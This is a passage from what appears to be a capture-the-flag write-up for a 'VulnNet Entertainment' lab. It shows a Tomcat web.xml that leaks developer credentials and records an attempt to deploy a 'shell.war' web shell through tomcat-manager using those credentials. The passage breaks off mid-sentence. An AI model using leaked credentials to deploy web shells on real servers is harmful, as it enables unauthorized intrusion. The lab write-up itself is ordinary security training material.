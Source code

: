 ```
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>VulnNet Entertainment</display-name>
  <description>
     VulnNet Dev Regulations - mandatory

1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:

    webdev:Hgj3LA$02D$Fa@21

GUI access is disabled for security reasons.

4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>

</web-app>
```

We get some credentials :

```
webdev:Hgj3LA$02D$Fa@21
```

We can;t access `:8080/manager` with these credentials. Might just be that the GUI is disabled, as mentionned in the `web.xml` file.



We have access to the `Virtual Host Manager` at `:8080/host-manager`. Not sure it's really useful.



Found the python package `tomcatmanager`.

Once installed, we can access the `:8080/manager` 

For some reason it didn't work when I use this syntax, I get an unauthorized access :

```
tomcat-manager --user=webdev --password=Hgj3LA$02D$Fa@21 http://10.10.205.16:8080/manager deploy local shell.war /shell
```



But if I dont specify the `--password` argument and enter it manually when prompted, it work
